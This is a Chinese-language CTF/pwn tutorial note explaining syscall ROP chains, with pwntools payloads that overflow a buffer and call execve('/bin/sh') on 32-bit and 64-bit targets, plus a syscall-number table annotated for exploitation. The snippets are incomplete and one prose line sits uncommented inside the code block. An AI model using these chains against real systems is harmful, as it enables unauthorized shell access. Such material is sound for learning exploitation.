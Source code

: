 这个系统调用相当于  **用户态请求内核态服务的“桥梁”**。它允许应用程序执行需要更高权限的操作（如文件读写、进程管理、时间获取等） 

```python
from pwn import *
#execve("/bin/sh",NULL,NULL)
这些小的汇编指令也就是gadget可以利用ROPgadget去寻找。
#32位syscall
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
io.sendline(payload)

#系统调用号，即 eax 应该为 0xb
#第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
#第二个参数，即 ecx 应该为 0
#第三个参数，即 edx 应该为 0

#64位syscall利用系统调用号write去写入bin/sh到bss段，然后利用系统调用去execve("bin/sh",0,0)
#具体的gadget要去利用ROPgadget去寻找这里不赘诉
payload  = cyclic(0x50 + 8)   # Padding to overflow buffer
# Stage 1: Write "/bin/sh" to BSS (optional)
payload += p64(pop_rax) + p64(0x0)          # rax = 0 (sys_read)
payload += p64(pop_rdx_rsi) + p64(0x10) + p64(bss)  # rdx=16, rsi=bss
payload += p64(pop_rdi) + p64(0)            # rdi = stdin (0)
payload += p64(ret)                         # Alignment
payload += p64(syscall)                     # Call sys_read
# Stage 2: execve
payload += p64(pop_rax) + p64(0x3b)         # rax = 0x3b (execve)
payload += p64(pop_rdx_rsi) + p64(0) + p64(0)  # rdx=0, rsi=0
payload += p64(pop_rdi) + p64(bss)          # rdi = "/bin/sh"
payload += p64(ret)                         # Alignment
payload += p64(syscall)                     # Trigger execve
io.sendline(payload)
io.sendline(b"/bin/sh\x00")                 # Send "/bin/sh" to stdin

```

提供一个系统调用号的表格帮助实现更多操作。

| **系统调用功能** | **32位调用号** | **64位调用号** | **说明**                                |
| ---------------- | -------------- | -------------- | --------------------------------------- |
| **`execve`**     | 11             | 59             | 执行程序（Pwn中常用于触发shell）        |
| **`exit`**       | 1              | 60             | 终止进程                                |
| **`read`**       | 3              | 0              | 从文件描述符读取数据（Pwn中用于输入）   |
| **`write`**      | 4              | 1              | 向文件描述符写入数据（Pwn中用于输出）   |
| **`open`**       | 5              | 2              | 打开文件                                |
| **`close`**      | 6              | 3              | 关闭文件描述符                          |
| **`fork`**       | 2              | 57             | 创建子进程                              |
| **`mmap`**       | 90             | 9              | 内存映射（Pwn中用于构造可执行内存区域） |
| **`mprotect`**   | 125            | 10             | 修改内存保护属性（Pwn中用于绕过NX）     |
| **`socket`**     | 359            | 41             | 创建套接字（网络Pwn题常用）             |
| **`sendfile`**   | 187            | 40             | 文件传输（Pwn中用于数据泄露）           |
